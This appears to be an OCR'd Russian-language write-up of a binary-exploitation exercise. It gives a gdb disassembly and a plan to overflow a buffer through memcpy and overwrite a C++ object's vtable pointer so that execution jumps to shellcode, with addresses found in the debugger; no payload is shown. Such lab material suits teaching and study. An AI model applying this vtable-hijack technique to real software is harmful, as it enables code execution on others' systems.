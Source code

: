 # disas 0x0804874e (N::operator-(N&))
Dump of assembler code for function _ZN1NmiERS_:
   0x0804874e <+0>:     push   %ebp
   0x0804874f <+1>:     mov    %esp,%ebp
   0x08048751 <+3>:     mov    0x8(%ebp),%eax
   0x08048754 <+6>:     mov    0x68(%eax),%edx      104
   0x08048757 <+9>:     mov    0xc(%ebp),%eax
   0x0804875a <+12>:    mov    0x68(%eax),%eax
   0x0804875d <+15>:    mov    %edx,%ecx
   0x0804875f <+17>:    sub    %eax,%ecx
   0x08048761 <+19>:    mov    %ecx,%eax
   0x08048763 <+21>:    pop    %ebp
   0x08048764 <+22>:    ret    
End of assembler dump

Создается два объекта (вызов конструктора). Объекты поддерживают арифметические операции между собой, а также можно записать некторую информацию в буфер (через аргумент).
В *%edx помещается адрес второго объекта, разыменовывается таблица виртуальных функций, а потом вызывается. По сути - двойное разыменование.
В асме это так - разыименовываем edx, там лежит eax, его разыменовываем
Нужно будет вызвать переполнение буфера через memcpy, нет проверки на ввод. Нигде нет вызовов систем или шелла, поэтому нужно будет добавить шеллкод.
Через memcpy перезапишем адрес таблицы виртуальных функций 2 объекта. Из-за второго разыменования, укажем не адрес таблицы, а адрес первой ячейки аннотации первого объекта, а в этой ячейке будет адрес второй, где начнется шеллкод.
Объекты в памяти расположены последовательно.


Найдем адрес начала для того, чтобы поместить в первый адрес возврата(0x804a00c):

# b *main+136
# run 'A'
# x $eax
0x804a00c:      0x00000041

Найдем адрес, чтобы перейти к шеллкоду:
Следующий адрес сдвинется на 4 байта, поэтому 
0x804a00c + 4 = 0x804a010

# x $esp
0xbffff710:     0x0804a008

# x/64wx 0x0804a008

0x804a008:      0x08048848      0x00000041      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
